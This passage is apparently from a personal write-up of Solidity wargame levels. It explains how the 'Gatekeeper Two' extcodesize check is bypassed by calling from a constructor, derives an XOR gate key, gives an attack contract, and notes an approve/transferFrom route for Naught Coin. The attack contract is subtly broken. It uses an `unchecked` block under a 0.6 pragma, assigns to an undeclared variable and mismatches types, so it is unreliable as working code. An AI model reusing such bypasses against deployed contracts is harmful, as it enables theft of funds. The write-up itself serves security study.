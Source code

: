 This level tests understanding of access control, bit operations and inline assembly:
- Inline assembly: Inline assembly is a low-level language in Solidity used to write assembly code directly in Solidity code.

Attack strategy:
1. Gate Two uses inline assembly extcodesize to check code size of caller address:
extcodesize(caller()) gets code size of caller (msg.sender) address.
If caller is contract address, extcodesize returns contract code size.
Requires extcodesize returns 0, meaning caller cannot be an already deployed contract.
In other words: need to attack by calling target contract in constructor, during constructor execution extcodesize returns 0 because contract code hasn't been deployed yet.

2. Gate Three is simple, uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1.

3. Design attack contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface GatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoAttack {
    constructor(address target) public {
        // Calculate _gateKey
        unchecked {
            gateKey = uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ (uint64(0) - 1);
        }

        // Call enter function
        GatekeeperTwo(target).enter(gateKey);
    }
}
```

Key learnings:
- Avoid using extcodesize to judge caller
extcodesize behavior can be bypassed during contract construction.
- Use more reliable authentication methods like signature verification.
- Limit caller range
Verify if caller is predefined address or authorized address.
- Avoid using easily predictable hash values
Don't rely on caller address or predictable values as access conditions.

## 15. Naught Coin ✅ [Medium]

Nothing new
Two approaches:
First: Use ERC20's approve and transferfrom methods
Second: Exploit modifier design flaw, bypass require time check through intermediary contract

## 16. Preservation ✅ [Medium]
